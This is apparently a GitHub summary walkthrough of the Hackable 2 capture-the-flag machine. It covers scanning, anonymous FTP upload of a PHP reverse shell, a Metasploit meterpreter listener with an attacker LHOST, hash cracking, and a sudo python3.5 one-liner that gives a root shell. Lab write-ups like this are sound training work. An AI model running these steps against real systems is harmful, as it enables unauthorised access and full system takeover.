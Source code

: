 #  Hackable 2 CTF – Summary Walkthrough  

A full text-based breakdown of the Hackable 2 vulnerable machine. This box showcases misconfigured FTP services, web shell upload, horizontal privilege escalation through exposed credentials, and abusing Python binary privileges for root access.  

##  Discovery  
- Ran `nmap` scans:  
nmap -sV -Pn <ip>
nmap -A <ip>

- Found open ports:  
- 21 (FTP – anonymous login enabled)  
- 22 (SSH)  
- 80 (HTTP – Apache web service)  

✅ Multiple exposed services provide several attack vectors.  

##  Enumeration  
- Ran `gobuster` on port 80:  
gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,log,php,html,bak,zip

- Discovered:  
- `/files`  
- `/index.html`  

- Checked FTP:  
ftp <ip>
Username: anonymous
Password: (blank)

✅ Anonymous login was allowed and confirmed write permissions.  

##  Foothold  
- Uploaded PHP reverse shell via FTP into `/files`:  
put shell.php

- Set up listener with Metasploit:  
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <port>
run

- Triggered the shell by visiting:  
http://<ip>/files/shell.php

✅ Meterpreter reverse shell established as `www-data`.  

##  User Escalation (www-data → shrek)  
- Found `/home/important.txt` → referenced a script `runme.sh`.  
- Ran the script:  
./runme.sh

- Output contained a password hash for user `shrek`.  
- Cracked the hash using CrackStation → retrieved plaintext password.  
- Switched user:  
su shrek

✅ Access as user `shrek`.  

##  Privilege Escalation (shrek → root)  
- Checked sudo privileges:  
sudo -l

- Found user `shrek` could run **python3.5** as root without a password.  
- Exploited this by running:  
sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'

✅ Root shell gained. 🎉  

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/hackable-2-ctf-full-technical-walkthrough-e54effd80f50)
